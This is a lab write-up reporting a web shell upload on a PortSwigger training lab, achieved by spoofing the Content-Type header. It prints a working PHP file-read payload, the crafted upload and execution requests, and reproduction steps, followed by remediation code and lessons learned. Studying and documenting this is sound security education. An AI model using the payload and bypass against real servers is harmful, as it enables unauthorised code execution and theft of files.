


# File Upload — Web Shell via Content-Type Restriction Bypass

> Server-side upload validation relying solely on a client-supplied `Content-Type` header, bypassed by modifying the MIME type in a crafted POST request to achieve PHP web shell execution.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

Client-controlled input should never serve as the sole validation mechanism for security-sensitive operations. This lab demonstrates a file upload function that checks the `Content-Type` header to restrict uploads to image types — a control that an attacker can trivially circumvent by modifying the header value in an intercepted request.

A PHP web shell was uploaded by spoofing the `Content-Type` header to `image/jpeg` while retaining a `.php` extension and PHP payload. The server accepted the file and subsequently executed it upon a direct GET request, returning the contents of a sensitive server-side file.

> **Key Outcome:** Achieved server-side PHP execution via `Content-Type` header spoofing, bypassing upload type restriction and exfiltrating the target secret from `/home/carlos/secret`.

---

## Scope & Objectives

### Objectives

- Identify the file upload validation mechanism in use on the avatar upload endpoint
- Determine whether the validation can be bypassed by manipulating client-supplied request headers
- Upload a PHP web shell by spoofing the `Content-Type` header to an accepted MIME type
- Execute the uploaded shell via a direct HTTP GET request and retrieve `/home/carlos/secret`

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| PortSwigger Lab Instance | Web Security Academy — "Web shell upload via Content-Type restriction bypass" | Web Application |
| `POST /my-account/avatar` | Avatar image upload endpoint with client-side MIME validation | Feature |
| `/files/avatars/` | Publicly accessible server directory serving uploaded files | File System Path |

### Out of Scope

- Any PortSwigger infrastructure outside the isolated lab instance
- Network-layer attacks
- Authentication bypass — valid credentials (`wiener:peter`) were provided

### Engagement Type

> **Type:** Gray-box (valid user credentials provided; application source not disclosed)
> **Authorization:** Sanctioned PortSwigger Web Security Academy lab environment
> **Duration:** Single session

---

## Methodology

The assessment followed the **OWASP Testing Guide v4.2** (WSTG-BUSL-08: Test Upload of Malicious Files) and **PTES** technical guidelines for web application testing, with specific focus on client-controllable input validation failure modes.

### Phase 1 — Reconnaissance

Authenticated using provided credentials. Uploaded a valid image file as the avatar. Captured all resulting HTTP traffic through Burp Suite Proxy, identifying the upload POST request structure and the subsequent GET request to `/files/avatars/<filename>`.

### Phase 2 — Upload Restriction Analysis

Attempted to upload `exploit.php` directly through the avatar upload form. The server rejected the request, returning a message indicating that only `image/jpeg` and `image/png` MIME types are permitted. This confirmed the server performs MIME type validation but did not confirm whether the validation reads file magic bytes or relies on the client-supplied `Content-Type` header.

### Phase 3 — Bypass via Header Manipulation

Forwarded the rejected upload request to Burp Repeater. Modified the `Content-Type` field within the multipart body from `application/octet-stream` to `image/jpeg`, while leaving the filename as `exploit.php` and the payload unchanged. Sent the modified request. The server returned a success response, confirming that the validation reads only the `Content-Type` header rather than performing server-side content inspection.

### Phase 4 — Execution and Exfiltration

Modified the previously captured GET request in Burp Repeater to target `/files/avatars/exploit.php`. The server executed the PHP script and returned the contents of `/home/carlos/secret` in the HTTP response body.

---

## Findings / Results

### VULN-001 — Content-Type Header Spoofing Enabling PHP Web Shell Upload and RCE

| Field | Detail |
|-------|--------|
| **ID** | VULN-001 |
| **Severity** | [CRITICAL] |
| **CVSS v3.1 Score** | 9.0 |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **CWE** | CWE-434: Unrestricted Upload of File with Dangerous Type |
| **OWASP Category** | A04:2021 — Insecure Design |
| **MITRE ATT&CK** | T1505.003 — Server Software Component: Web Shell |
| **Affected Component** | `POST /my-account/avatar` upload endpoint |

#### Description

The avatar upload endpoint validates the file type by inspecting the `Content-Type` header value supplied in the multipart POST request body. This header is fully attacker-controlled and carries no integrity guarantee. An attacker may upload a PHP file by setting `Content-Type: image/jpeg` while retaining a `.php` extension and a PHP payload. The server accepts the file without performing server-side content inspection (e.g., magic byte analysis), stores it in the publicly accessible `/files/avatars/` directory, and executes it when requested via HTTP GET.

#### Technical Impact

Successful upload of a PHP web shell permits arbitrary server-side code execution under the web server process context. In this instance, `file_get_contents()` was used to read an arbitrary file from the server's file system. The same technique supports execution of shell commands, reverse shell establishment, and lateral movement within the hosting environment.

#### Business Impact

An authenticated attacker with standard user privileges can achieve arbitrary code execution on the underlying server, enabling full disclosure of sensitive data, server compromise, and potential pivoting to adjacent systems. In a production environment this constitutes a critical data breach event with regulatory and reputational consequences.

#### Proof of Concept

Web shell payload (saved as `exploit.php`):

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Modified upload request sent via Burp Repeater (abbreviated — key change highlighted):

```http
POST /my-account/avatar HTTP/2
Host: <lab-instance>.web-security-academy.net
Cookie: session=<session-token>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary--
```

> Note: `Content-Type: image/jpeg` was manually set for the file part while the payload and filename remained unchanged.

Execution request via Burp Repeater:

```http
GET /files/avatars/exploit.php HTTP/2
Host: <lab-instance>.web-security-academy.net
Cookie: session=<session-token>
```

Server response (body):

```
gyzw3ILIxNiPdkW5NjUC2yo4JZrZS5NB
```

#### Reproduction Steps

1. Log in with `wiener:peter` while proxying through Burp Suite.
2. Upload a valid image as avatar. In Burp HTTP history, locate the GET request to `/files/avatars/<image>`. Send to Repeater.
3. Attempt to upload `exploit.php` containing `<?php echo file_get_contents('/home/carlos/secret'); ?>` via the avatar form. Observe the rejection response citing MIME type restriction.
4. In Burp HTTP history, locate the rejected `POST /my-account/avatar` request. Send to a second Repeater tab.
5. In the POST request body, locate the `Content-Type` field for the file part. Change its value from `application/octet-stream` (or browser default) to `image/jpeg`.
6. Send the modified request. Confirm the server accepts the file (success message in response).
7. In the GET Repeater tab, change the path to `/files/avatars/exploit.php`. Send. Observe the secret returned in the response body.

#### Retest Criteria

- Upload of a file with `Content-Type: image/jpeg` but a `.php` extension must be rejected.
- Server must perform magic byte inspection independent of the `Content-Type` header.
- Uploaded files must not be executable within the storage directory.

---

## Risk Summary

| ID | Title | Severity | CVSS | CWE | OWASP |
|----|-------|----------|------|-----|-------|
| VULN-001 | Content-Type Bypass — PHP Web Shell Upload and RCE | [CRITICAL] | 9.0 | CWE-434 | A04:2021 |

---

## Attack Chain

```
[Authenticated User Session]
        |
        v
[POST /my-account/avatar]
  -- exploit.php uploaded with Content-Type: image/jpeg
  -- Server validates header only; accepts file
        |
        v
[Server stores exploit.php in /files/avatars/]
  -- .php extension preserved; file stored in web-accessible directory
        |
        v
[GET /files/avatars/exploit.php]
  -- Web server executes PHP file on request
        |
        v
[PHP: file_get_contents('/home/carlos/secret')]
  -- Arbitrary server-side file read executed
        |
        v
[HTTP 200 response body: secret value returned to attacker]
```

**MITRE ATT&CK Mapping:**

| Phase | Technique | ID |
|-------|-----------|----|
| Initial Access | Valid Accounts | T1078 |
| Defense Evasion | Masquerading — Match Legitimate Name or Location | T1036.005 |
| Execution | Server Software Component: Web Shell | T1505.003 |
| Collection | Data from Local System | T1005 |
| Exfiltration | Exfiltration Over C2 Channel (HTTP) | T1041 |

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | 2026.3.2 | HTTP interception, header manipulation, request replay |
| Chromium | 146 | Lab browser — traffic proxied through Burp |
| Kali Linux | — | Attack platform |
| PortSwigger Web Security Academy | — | Authorized lab environment |

**Key technique:** Manual `Content-Type` header modification in Burp Repeater — no additional tooling required beyond the standard interception proxy workflow.

---

## Evidence

### Figure 1 — Web Shell Execution in Burp Repeater (Request and Response)


*Caption: GET request to `/files/avatars/exploit.php` returning HTTP 200 with the exfiltrated secret (`gyzw3ILIxNiPdkW5NjUC2yo4JZrZS5NB`) in the response body. `Content-Length: 32` confirms a single string was returned — consistent with a secret value, not an image file.*

### Figure 2 — Lab Solved Confirmation


*Caption: PortSwigger lab banner confirming successful completion of "Web shell upload via Content-Type restriction bypass" after submitting the exfiltrated secret.*

---

## Remediation

### REM-001 — Replace Client-Controlled MIME Validation with Server-Side Content Inspection [IMMEDIATE]

**Priority:** `[IMMEDIATE]` — The current control provides no meaningful security guarantee. Any attacker with an interception proxy can bypass it in under one minute.

**Root Cause:** The validation logic reads the `Content-Type` header from the client-supplied multipart body. This value is fully attacker-controlled and must not be used as a security boundary.

**Recommended Controls (defence-in-depth):**

1. **Server-side magic byte inspection** — Determine file type by reading the file's binary signature, not the `Content-Type` header.

```python
import magic

def validate_mime(file_stream):
    header = file_stream.read(2048)
    file_stream.seek(0)
    detected_mime = magic.from_buffer(header, mime=True)
    return detected_mime in {'image/jpeg', 'image/png', 'image/gif', 'image/webp'}
```

2. **Extension allowlist** — Enforce an explicit allowlist of permitted file extensions server-side, independent of the MIME check.

```python
ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'webp'}

def allowed_extension(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```

3. **Rename uploaded files on storage** — Strip the attacker-supplied filename and extension. Generate a UUID-based name with the server-verified extension only.

```python
import uuid

def safe_storage_name(verified_extension):
    return f"{uuid.uuid4().hex}.{verified_extension}"
```

4. **Store uploads outside the web root** — Files must be served through an application-layer handler, not accessed directly via the file system path. The handler must set a fixed `Content-Type` response header corresponding to the validated file type.

5. **Disable execution in the upload directory** — Apply a server directive regardless of other controls:

```apache
# Apache — upload directory .htaccess
php_flag engine off
Options -ExecCGI
AddHandler cgi-script .php .php3 .phtml .pl .py .jsp .asp .sh .cgi
```

---

## Lessons Learned

| Skill | Observation |
|-------|-------------|
| Client-Controlled Input as Security Boundary (CWE-434) | The `Content-Type` header in a multipart POST is set by the browser or client and carries no integrity guarantee. Any validation that trusts it without server-side corroboration is trivially bypassed. This is a fundamental design flaw, not an implementation bug. |
| Burp Repeater — Header Manipulation Workflow | Forwarding a rejected request to Repeater and modifying a single header field is sufficient to bypass client-side MIME validation. This technique applies broadly to any control that inspects request headers rather than file content. |
| Progressive Defence Evaluation | Testing bypass required only one modification after observing the rejection response. Enumerating what the server actually checks — as opposed to what it claims to check — is a core skill in upload vulnerability assessment. |
| MITRE T1036.005 — Masquerading | Spoofing the `Content-Type` header to pass as a legitimate image type maps directly to the masquerading technique. Recognising ATT&CK alignment in bypass techniques strengthens both offensive reporting and defensive detection logic. |
| Comparison with Lab 01 | Lab 01 (unrestricted upload) required no bypass. This lab introduced a validation layer — but one anchored to an untrusted input. The remediation pattern is identical: server-side content inspection, rename on storage, execution disabled in upload directory. |

**Tags:** `file-upload` `content-type-bypass` `mime-spoofing` `web-shell` `rce` `CWE-434` `OWASP-A04` `T1505.003` `T1036.005` `burp-suite` `portswigger`

---

## References

- [PortSwigger Web Security Academy — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP Testing Guide v4.2 — WSTG-BUSL-08: Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [MITRE ATT&CK — T1505.003: Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/)
- [MITRE ATT&CK — T1036.005: Masquerading — Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005/)
- [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document)

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated
> lab environments or sanctioned CTF platforms. No unauthorized systems were accessed.
> This project is intended for educational and portfolio purposes only.
